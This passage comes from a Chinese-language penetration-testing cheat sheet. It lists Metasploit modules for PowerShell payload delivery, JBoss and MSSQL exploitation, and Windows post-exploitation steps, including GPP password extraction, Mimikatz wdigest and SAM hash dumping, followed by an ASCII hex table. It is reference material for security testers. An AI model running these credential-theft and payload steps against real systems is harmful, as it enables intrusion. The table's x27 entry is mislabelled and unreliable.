 ### Metasploit Powershell 模块

| 命令 | 解释 |
| :--- | :--- |
| `use exploit/multi/script/web_delivery` | Metasploit powershell payload c传送模块 |
| `post/windows/manage/powershell/exec_powershell` | Metasploit通过会话上传和执行 powershell脚本 |
| `use exploit/multi/http/jboss_maindeployer` | Metasploit JBOSS 部署 |
| `use exploit/windows/mssql/mssql_payload` | Metasploit MSSQL payload |

### Windows 后渗透Metasploit 模块

Windows Metasploit 提权模块。

| 命令 | 解释 |
| :--- | :--- |
| `run post/windows/gather/win_privs` | Metasploit 显示当前用户权限 |
| `use post/windows/gather/credentials/gpp` | Metasploit 提取 GPP 保存的密码 |
| `load mimikatz -> wdigest` | Metasplit 加载 Mimikatz |
| `run post/windows/gather/local_admin_search_enum` | 检查当前用户是否对域内其他机器有管理员权限 |
| `run post/windows/gather/smart_hashdump` | 自动化导出sam 文件，尝试提权等。 |

## ASCII表速查

对Web应用渗透测试很有用，或者你被困在火星而需要和NASA通信。（梗自《火星救援》）

| ASCII | 字符 |
| :--- | :--- |
| `x00` | Null Byte 空字节 |
| `x08` | BS  退格 |
| `x09` | TAB 水平制表符 |
| `x0a` | LF 换行 |
| `x0d` | CR 回车 |
| `x1b` | ESC |
| `x20` | SPC 空格 |
| `x21` | ! |
| `x22` | " |
| `x23` | \# |
| `x24` | $ |
| `x25` | % |
| `x26` | & |
| `x27` | \` |
| `x28` | \( |
| `x29` | \) |
| `x2a` | \* |
| `x2b` | + |